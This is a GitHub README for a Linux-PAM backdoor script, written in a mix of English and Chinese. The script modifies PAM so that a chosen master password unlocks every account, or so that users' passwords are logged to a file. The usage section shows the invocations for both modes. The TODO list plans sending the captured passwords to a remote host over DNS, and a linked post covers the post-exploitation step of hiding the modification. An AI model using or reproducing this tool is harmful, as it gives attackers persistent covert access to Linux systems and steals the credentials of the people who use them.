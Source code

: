 # linux-pam-backdoor         
Linux PAM Backdoor           
                             
This script automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)

Modify by 9bie.

## TODO
 - ~添加密码记录(已完成)~
 - 添加发送远程密码
 - 添加使用dns协议发送密码

## Tips
遇到undefine yywrap等问题，使用`sudo apt-get install flex` 即可

替换之后修改时间的后渗透操作可以去[一般路过PAM后门 / SSH密码记录](https://9bie.org/index.php/archives/742/) 查看

## Usage

如果你需要万能密码
```
./backdoor.sh -m key -v 1.3.0 -p som3_s3cr4t_p455w0rd
```
其中p为你要的万能密码


如果你需要使用密码记录
```
./backdoor.sh -m save -v 1.3.0 -o /tmp/log.txt
```
其中o为密码保存路径
## Dependencies 


* 1.1.8 and older: 它工作
* 1.2.0: 它工作
* 1.3.0 to 1.4.0: 不工作

The following packages where used
```bash
apt install -y  autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```

